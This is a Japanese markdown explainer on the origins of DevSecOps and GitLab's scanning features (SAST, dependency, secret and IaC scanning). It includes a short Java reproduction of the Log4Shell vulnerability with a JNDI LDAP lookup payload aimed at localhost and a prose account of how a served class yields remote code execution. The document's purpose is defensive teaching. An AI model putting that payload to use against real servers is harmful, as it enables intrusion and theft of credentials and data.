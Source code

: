 # GitLabでのDevSecOps説明

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明する。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力している。

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分だった。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがある。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められている。

![Alt text](img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見された。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなった。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用する。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できる。

脆弱性は以下のシンプルなコードで再現できる。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに「${jndi:ldap://~}」という文字列が埋め込むことで攻撃が成立する。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できる。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になる。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できる。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となる。

### OSSの多用

上記の脆弱性が潜在的に全てのライブラリに存在する可能性がある。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加する。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難である。日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの工数が必要となる。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれた。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされている。

![Alt text](img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがある。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供している。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面がある。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になる。

![Alt text](img/gitlab_cicd_devsecops.png)
![Alt text](img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供する。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsである。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
